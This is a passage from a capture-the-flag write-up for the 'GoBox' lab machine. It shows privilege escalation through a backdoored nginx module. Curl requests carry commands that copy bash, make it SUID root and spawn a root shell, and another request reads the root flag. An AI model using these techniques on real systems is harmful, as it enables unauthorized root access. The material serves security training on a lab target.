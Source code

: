 ```
www-data@gobox:/tmp$ curl -g http://127.0.0.1:8000/?ippsec.run[cp%20%2Fbin%2Fbash%20%2Ftmp]
curl -g http://127.0.0.1:8000/?ippsec.run[cp%20%2Fbin%2Fbash%20%2Ftmp]
curl: (52) Empty reply from server
www-data@gobox:/tmp$ ls /tmp
ls /tmp
bash
iptables-set
php-fpm.sock
systemd-private-f4088fc163ce4e7eaad866e2129c5987-incron.service-69FXUe
systemd-private-f4088fc163ce4e7eaad866e2129c5987-systemd-logind.service-9DJbUf
systemd-private-f4088fc163ce4e7eaad866e2129c5987-systemd-resolved.service-4vFjFh
systemd-private-f4088fc163ce4e7eaad866e2129c5987-systemd-timesyncd.service-GqVjkf
tmux-33
vmware-root_683-4013919829
www-data@gobox:/tmp$
```

Next, we will have to set the SUID to our bash binary in the /tmp directory using ```chmod 4777 /tmp/bash```

```
www-data@gobox:/tmp$ curl -g http://127.0.0.1:8000/?ippsec.run[chmod%204777%20%2Ftmp%2Fbash]
curl -g http://127.0.0.1:8000/?ippsec.run[chmod%204777%20%2Ftmp%2Fbash]
curl: (52) Empty reply from server
www-data@gobox:/tmp$ ls -la /tmp/bash
ls -la /tmp/bash
-rwsrwxrwx 1 root root 1183448 May 16 06:09 /tmp/bash
```

Afterwards, we can execute the /tmp/bash binary with the ```-p``` flag to preserve the privilege

```
www-data@gobox:/tmp$ /tmp/bash -p
/tmp/bash -p
bash-5.0# whoami
whoami
root
bash-5.0#  
```
### Alternative method of obtaining root flag

Another alternative method of obtaining the root flag is to make use of the ngx_http_execute.so module and do a curl command to execute the ```cat``` command 
to view the contents of the root flag

```
www-data@gobox:/usr/lib/nginx/modules$ curl -g http://127.0.0.1:8000/?ippsec.run[cat%20%2Froot%2Froot.txt]
curl -g http://127.0.0.1:8000/?ippsec.run[cat%20%2Froot%2Froot.txt]
<Redacted root flag>
```
### Script for executing commands from SSTI in golang
